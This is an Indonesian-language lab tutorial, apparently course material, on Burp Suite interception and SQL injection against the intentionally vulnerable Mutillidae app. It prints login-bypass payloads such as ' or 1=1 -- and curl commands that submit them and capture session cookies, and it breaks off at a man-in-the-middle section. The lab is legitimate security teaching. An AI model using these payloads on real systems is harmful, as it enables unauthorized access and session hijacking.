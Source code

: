 # Lesson 5 : SQL Injection, Burpsuite, cURL, Man-In-The-Middle Attack

## Start Web Browser Session to Mutillidae
- Buka Multilade pada browser dengan mengakses alamat http://10.0.1.100/mutillidae

## Go To Login Page
- Buka halaman Login/Register

## Configure Firefox Proxy Settings
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan 127.0.0.1
   - Pada kolom Port 8080
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"

## SQL Injection: By-Pass Password Without Username (Obtain Access #1)
1. Login Tanpa Menggunakan Password
   - Pada kolom Textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
2. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy Tab
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan

## Simulate CURL SQL Injection: (Obtain Access #1)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash
curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1+--+&password=&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login1.txt
```
```bash
grep "Logged In" login1.txt
```
```bash
cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt

## SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
1. Inspect Password Box Element
   - Buka halaman Login/Register
   - Pada kolom Textbox Name isikan samurai
   - Pada kolom Textbox Password klik kanan, kemudian inspect element
2. Edit Password Box Element
   - Replace string password menjadi text
   - Pada bagian size dan maxlength tambahkan kapasistasnya dari yg semula 20 menjadi 50
3. Berikan Kondisi Selalu True pada kolom Textbox Password
   - Pada kolom Textbox Password isikan **`' or (1=1 and username='samurai')--`**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol Login
4. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy Tab
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=login.php** dengan Method POST
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Highligt text, kemudian klik kanan
   - Klik "Copy to FIle"
5. Save File
   - Save file di : root
   - File Name: burp2.txt
   - Klik tombol Save
6. View Post Data (With Burpsuite)
   - cd /root
   - Jalankan perintah berikut
```bash
   grep -i cookie burp2.txt
```
```bash
   grep -i username burp2.txt
```

Simulate cURL SQL Injection: (Obtain Access #2)
1. Use Curl to Login with POST Data
   - Buka terminal, ketikkan perintah-perintah berikut : 
```bash 
	rm crack_cookies.txt
```
```bash
	curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29+--+&login-php-submit-button=Login" --location "http://10.0.1.100/mutillidae/index.php?page=login.php" > login2.txt
``` 
```bash
	grep "Logged In" login2.txt
```
```bash
	cat crack_cookies.txt
```
   - Session cookies akan disimpan pada file crack_cookies.txt

## Restore Firefox Original Proxy Configurations
1. View Preferences
   - Klik toggle menu yang ada di pojok kanan atas
   - Pilih Preferences
2. Advanced Settings
   - Pilih menu Advanced
   - Pilih Network Tabs
   - Klik Setting
3. Connection Settings
   - Pilih no proxy
   - Klik Ok, Kemudian Close

## Simulate Man-In-The-Middle Attack
1. Start Cookies Manager+
2. Add Cookie Entry
